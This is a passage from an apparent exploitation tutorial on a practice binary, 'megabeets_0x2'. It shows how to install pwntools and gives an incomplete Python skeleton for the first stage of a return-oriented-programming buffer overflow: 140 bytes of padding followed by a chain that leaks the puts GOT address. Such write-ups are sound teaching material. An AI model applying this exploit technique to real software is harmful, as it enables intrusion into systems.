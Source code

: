             <p>
              For writing the exploit we will use <em><a href="https://github.com/Gallopsled/pwntools">pwnlib</a> </em>framework which is my favorite python framework for exploitation task. It is simplifying a lot of stuff and making our life easier. You can use every other method you prefer.
            </p>
            
            <p>
              To install <em>pwntools</em> use <code>pip</code>:
            </p>
            
            <pre class="toolbar:2 marking:false ranges:false nums:false nums-toggle:false wrap-toggle:false show-plain:3 lang:sh decode:true">$ pip install --upgrade pip
$ pip install --upgrade pwntools</pre>
            
            <p>
              You can read more about <em>pwntools</em> in the <a href="http://docs.pwntools.com/en/stable/index.html">official documentation</a>.
            </p>
            
            <p>
              Here&#8217;s our python skeleton for the first stage:
            </p>
            
            <pre class="toolbar:2 marking:false ranges:false nums:false nums-toggle:false show-plain:3 lang:python decode:true">from pwn import *

# Addresses
puts_plt =
puts_got =
entry_point =

# context.log_level = "debug"

def main():
    
    # open process
    p = process("./megabeets_0x2")

    # Stage 1
    
    # Initial payload
    payload  =  "A"*140 # padding
    ropchain =  p32(puts_plt)
    ropchain += p32(entry_point)
    ropchain += p32(puts_got)

    payload = payload + ropchain

    p.clean()
    p.sendline(payload)
